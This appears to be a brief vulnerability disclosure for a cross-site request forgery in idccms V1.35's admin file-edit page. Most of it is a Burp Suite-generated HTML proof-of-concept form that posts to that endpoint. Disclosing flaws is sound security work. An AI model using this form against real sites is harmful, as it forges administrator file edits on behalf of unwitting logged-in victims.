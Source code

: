 
target:http://idccms.com/
version: V1.35

idccms V1.35 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/editFile.php?mudi=manage&menuID=999917&fileName=robots.txt

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/editFile.php?mudi=manage&menuID=999917&fileName=robots.txt" method="POST">
      
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
